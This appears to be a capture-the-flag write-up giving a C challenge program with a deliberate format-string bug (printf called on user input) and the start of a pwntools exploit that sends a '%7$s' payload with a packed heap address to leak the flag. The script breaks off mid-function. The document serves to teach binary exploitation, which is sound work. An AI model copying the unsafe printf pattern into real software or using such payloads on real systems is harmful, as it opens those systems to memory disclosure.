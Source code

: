 challenge source code:
```c
#include <stdio.h>
#include <stdlib.h>

// compile commands: gcc insanity.c -o insanity -fno-pic

int main() {
  char *flag = malloc(128);
  
  FILE *flag_file = fopen("./flag.txt", "r");
  fseek(flag_file, 0, SEEK_END);
  long flag_size = ftell(flag_file);
  fseek(flag_file, 0, SEEK_SET);
  
  fread(flag, 1, flag_size, flag_file);
  flag[flag_size] = '\00';

  // not that easy :>
  flag = NULL;

  printf("Whats your name? ");
  char name[64] = {0};
  scanf("%63s", name);

  for (size_t i = 0; i < sizeof(name); ++i)
    if (name[i] == 'n' || name[i] == 'N') {
      printf("I hate the letter N!!!");
      exit(-1);
    }

  printf("nice name, ");
  printf(name);
  printf("! =]\n");
  
  return 0;
}
```

Solution:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./insanity")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        # gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()

    r.sendline(b'%7$s----' + p64(0xf48510))
    try:
```